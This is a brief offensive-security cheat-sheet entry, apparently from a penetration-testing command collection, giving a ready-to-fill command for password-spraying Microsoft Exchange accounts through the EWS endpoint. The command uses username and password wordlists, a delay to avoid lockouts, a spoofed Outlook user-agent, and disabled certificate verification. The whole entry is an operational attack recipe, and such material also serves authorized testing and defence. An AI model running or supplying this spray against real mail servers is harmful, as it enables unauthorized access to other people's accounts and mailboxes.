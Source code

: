 # exchange_password_spray
% exchange
#plateform/linux  #target/remote  #protocol/exchange #cat/ATTACK/BRUTEFORCE-SPRAY 


## bruteforce (EWS)
user format <domain_netbios>\<user>
edit script to set verify=False
```bash
python3 exchange_password_spray.py  -U <user_wl> -P <password_wl>  --url https://<fqdn>/ews --delay 62 -T 1 -ua "Microsoft Office/16.0 (Windows NT 10.0; MAPI 16.0.9001; Pro)" -O result.txt -v
```
